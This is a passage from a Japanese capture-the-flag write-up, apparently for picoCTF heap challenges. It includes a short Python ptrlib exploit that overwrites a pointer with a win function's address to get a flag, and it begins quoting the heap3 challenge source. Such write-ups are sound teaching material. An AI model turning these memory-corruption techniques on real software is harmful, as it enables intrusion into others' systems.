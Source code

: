 ```c
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```
プログラムの構造はこれまでと同じ。しかし、今回は`check_win`で条件を満たしていたらフラグを出力するのではなく、`x`の値を関数として呼んでいる。
今回はフラグを出力する`win`という関数があるので、`x`の値を`win`のアドレスに変更できればフラグを獲得できる。
```python
#!/usr/bin/env python

import ptrlib as ptr

io = ptr.Process("./chall")

win_addr = 0x00000000004011A0

io.recvuntil(b"Enter your choice: ")
io.sendline(b"2")
io.sendline(b"A" * 32 + ptr.p64(win_addr))
io.sendline(b"4")

print(io.recvlineafter(b"Enter your choice:"))
```
## heap3
ソースコードが渡された。
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

// Create struct
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;

int num_allocs;
object *x;

void check_win() {
  if(!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
```